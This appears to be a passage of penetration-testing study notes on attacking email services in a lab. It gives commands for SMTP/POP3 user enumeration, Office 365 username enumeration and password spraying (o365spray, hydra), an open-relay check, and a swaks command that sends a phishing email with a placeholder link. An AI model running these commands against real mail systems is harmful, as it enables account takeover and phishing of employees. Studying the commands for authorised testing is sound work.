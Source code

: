   ```sh
  # for checking if recipient exists or not

  MAIL FROM:test@htb.com
  test content

  RCPT TO:john
  # if we do not get 'unknown' error
  # that means user exists

  # we can also check with USER command
  # if server uses POP3

  USER testuser
  # -ERR if user does not exist

  USER john
  # +OK if user exists
  ```

  ```sh
  # we can also use tools like smtp-user-enum

  smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
  # -M to specify mode
  # -D for domain, depends on implementation
  ```

* Cloud enumeration:

  ```sh
  # for Office 365, we can use o365spray tool

  # validate if target is using O365
  python3 o365spray.py --validate --domain msplaintext.xyz

  # enumerate usernames
  python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
  ```

* Password attacks:

  ```sh
  # password spray
  hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3

  # for cloud services like O365
  python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
  ```

* Open relay attack:

  ```sh
  # check if SMTP port allows open relay
  nmap -p25 -Pn --script smtp-open-relay 10.10.11.213

  # use a mail client to connect to the mail server and send a phishing email
  swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
  ```
